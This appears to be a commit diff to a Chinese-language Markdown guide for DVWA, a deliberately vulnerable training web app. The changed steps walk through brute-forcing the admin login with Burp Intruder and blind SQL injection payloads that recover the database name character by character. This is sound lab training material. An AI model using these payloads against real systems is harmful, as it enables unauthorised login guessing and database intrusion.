

Before and after one commit to helihai375-coder/new-project, a Markdown page: docs/dvwa/dvwa-third-stage-module-methods.md, 2 parts joined by grey strips. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Format DVWA stage three test steps

````diff
--- a/docs/dvwa/dvwa-third-stage-module-methods.md
+++ b/docs/dvwa/dvwa-third-stage-module-methods.md
@@ -47,14 +47,44 @@ password
 Login
 ```
 
-测试方法：
+测试过程：
 
-1. 输入错误密码，例如 `admin / 123456`，观察失败提示。
-2. 输入正确密码，例如 `admin / password`，观察成功提示。
-3. 在 Burp `HTTP history` 中找到登录请求。
-4. 发送到 Repeater，手动替换 `password` 参数。
-5. 使用 Intruder 做少量密码枚举演示，只选中 `password` 的值作为 payload 位置。
-6. 对比 `Response` 内容、`Content-Length`、`Welcome` 和 `incorrect`。
+```text
+进入 DVWA -> Brute Force
+-> 打开登录测试页面
+
+Username: admin
+Password: 123456
+-> 页面提示 Username and/or password incorrect.
+
+Username: admin
+Password: password
+-> 页面显示 Welcome to the password protected area admin
+
+Burp -> Proxy -> HTTP history
+-> 找到登录请求
+
+GET /vulnerabilities/brute/?username=admin&password=123456&Login=Login
+-> 这是可重放和修改的登录请求
+
+Send to Repeater
+password=123456
+-> 返回 incorrect，说明密码错误
+
+password=admin
+-> 返回 incorrect，说明密码错误
+
+password=password
+-> 返回 Welcome，说明该密码正确
+
+Send to Intruder
+password=§123456§
+Payloads: 123456, admin, password, admin123
+-> 对比 Status、Length 和 Response 内容
+
+某一行 Length 明显不同，并且 Response 中出现 Welcome
+-> 该 Payload 很可能是正确密码
+```
 
 典型请求：
 
@@ -91,15 +121,49 @@ DVWA -> SQL Injection (Blind)
 id
 ```
 
-测试方法：
+测试过程：
 
-1. 输入 `1`，确认存在用户。
-2. 输入 `999`，确认不存在用户。
-3. 输入真条件 `1' and '1'='1`。
-4. 输入假条件 `1' and '1'='2`。
-5. 根据真假响应判断盲注是否成立。
-6. 使用 `length(database())` 判断数据库名长度。
-7. 使用 `substr(database(),位置,1)` 逐字符猜数据库名。
+```text
+进入 DVWA -> SQL Injection (Blind)
+-> 打开 SQL 盲注测试页面
+
+输入 1
+-> 页面显示 User ID exists in the database.
+
+输入 999
+-> 页面显示 User ID is MISSING from the database.
+
+输入 1' and '1'='1
+-> 页面显示 User ID exists in the database.
+
+输入 1' and '1'='2
+-> 页面显示 User ID is MISSING from the database.
+
+真条件 -> exists
+假条件 -> MISSING
+-> 说明 id 参数可以影响数据库查询逻辑
+
+输入 1' and length(database())=1#
+-> 页面显示 MISSING，说明数据库名长度不是 1
+
+输入 1' and length(database())=4#
+-> 页面显示 exists，说明数据库名长度是 4
+
+输入 1' and substr(database(),1,1)='d'#
+-> 页面显示 exists，说明第 1 个字符是 d
+
+输入 1' and substr(database(),2,1)='v'#
+-> 页面显示 exists，说明第 2 个字符是 v
+
+输入 1' and substr(database(),3,1)='w'#
+-> 页面显示 exists，说明第 3 个字符是 w
+
+输入 1' and substr(database(),4,1)='a'#
+-> 页面显示 exists，说明第 4 个字符是 a
+
+d + v + w + a
+-> 拼出数据库名 dvwa
+```
 
 测试 Payload：
 
````
Also changed, not shown: other parts of docs/dvwa/dvwa-third-stage-module-methods.md (+130 -29 lines).
